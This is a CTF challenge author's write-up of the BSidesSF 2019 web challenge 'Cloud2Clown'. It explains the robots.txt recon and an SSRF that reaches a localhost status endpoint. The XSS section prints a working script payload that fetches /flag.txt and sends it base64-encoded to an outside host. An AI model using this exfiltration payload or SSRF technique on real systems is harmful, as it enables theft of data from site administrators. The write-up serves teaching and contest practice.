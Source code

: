 ```yaml
---
layout: post
title: "BSides SF CTF Author Writeup: Cloud2Clown"
category: Security
date: 2019-03-07
tags:
  - CTF
  - BSidesSF
---
```

## The Challenge ##

> Sometimes you see marketing materials that use the word cloud to the point
> that it starts to lose all meaning. This service allows you to fix that with
> clowns instead of clouds. Note: there are 2 flags, they should be clearly
> labeled.

This was a web challenge with 2 flags hidden inside.  When you visited the
challenge, you saw a very basic web form that prompted only for a URL.

![Cloud2Clown](/img/blog/bsidessf2019/cloud2clown.png)

Giving it a quick try, we see that it requests the page at the URL you provide,
then re-renders it with the word "Cloud" replaced with the word "Clown".
Notably, this is served on `/render`, but on the same
[domain, port, and protocol](https://en.wikipedia.org/wiki/Same-origin_policy)
as the rest of the site.

## Recon ##

So how can we find out more about the challenge?  Well, short of blowing up the
server with dirbuster, there are some URLs that can be useful to check on web
applications.  A couple of examples include:

* `/sitemap.xml`
* `/robots.txt`

There's no sitemap for this site, but there is a `robots.txt` file with the
following contents:

```
User-agent: *
Disallow: /flag.txt
Disallow: /status
Disallow: /flag
Disallow: /hack
```

If we visit each of these URLs in turn, we will find that `/flag.txt` returns
"Forbidden" and `/status` returns "Not in IP whitelist."  `/hack` was a red
herring that lead to my blog, and `/flag` just returns "Invalid URL."

## Vulnerability 1: SSRF ##

(This was actually labeled as flag 2, as it was added as an afterthought.)

Since this is a server that issues outbound HTTP/HTTPS requests, [Server Side
Request Forgery](https://www.owasp.org/index.php/Server_Side_Request_Forgery)
(SSRF) is an obvious candidate.  Since this is well-known to bypass firewalls or
IP whitelists, it looks like this is a good option to go after whatever
information is in `/status`.  Unfortunately, a request to render
`https://cloud2clown-dc9b5aed.challenges.bsidessf.net/status` does not work,
still giving access denied.  This does not work because all of the web services
are behind a [Google Cloud Load Balancer](https://cloud.google.com/load-balancing/),
so the request still appears to come from the outside.  Trying
`http://localhost/status` also fails, this time because it's not running on
port 80.  Since you often won't know the port for a backend service, it may be
necessary to try it.  You can either try brute force or go for the top web
service ports.  In either case, if you try `http://localhost:8081/status`,
you'll find that you get a JSON structure instead of an error:

```
{
  "author": "Matir",
  "flag2": "CTF{ssrf_for_more_than_metadata}",
  "ipWhitelist": [
    "127.0.0.1",
    "127.1.1.1",
    "13.37.13.37",
    "::1"
  ],
  "remoteAddr": "[::1]:56190",
  "reviewQueue": 0,
  "reviewQueueSize": 1024
}
```

One of the elements is clearly the flag we're after:
`CTF{ssrf_for_more_than_metadata}`.

## Vulnerability 2: XSS ##

Since the service blindly renders any page you give it, this will include
rendering JavaScript.  At first, this appears to only be a self-XSS since it
just reflects the rendering back to the player.  However, at the bottom of each
rendered page, there is a bar added that says "Page rendered by Cloud2Clown" and
has a link to "Report Page Error".  Clicking on the button pushed the URL into a
queue to be visited by the admin.  When the admin visited it, any javascript
payload would be executed for the admin, including the ability to request the
`/flag.txt` path.  My canonical test payload was:

```
<script>
fetch('/flag.txt', {mode: 'no-cors'}).then(function(r) {
  r.text().then(function(f) {
    var img = document.createElement('img');
    img.src = 'http://ctf.1337.fyi:3333/' + btoa(f);
  })
})
</script>
```

This sent a request to `http://ctf.1337.fyi:3333` with the flag encoded as
base64.  A quick decode later revealed `Flag 1: CTF{we_hope_that_wasnt_hard}`.

## Conclusion ##

For some reason, players seemed to struggle with this challenge, but all the
admins thought it straightforward.  Have feedback?
Hit me up on [Twitter](https://twitter.com/Matir) or the BSidesSF slack
(@Matir).
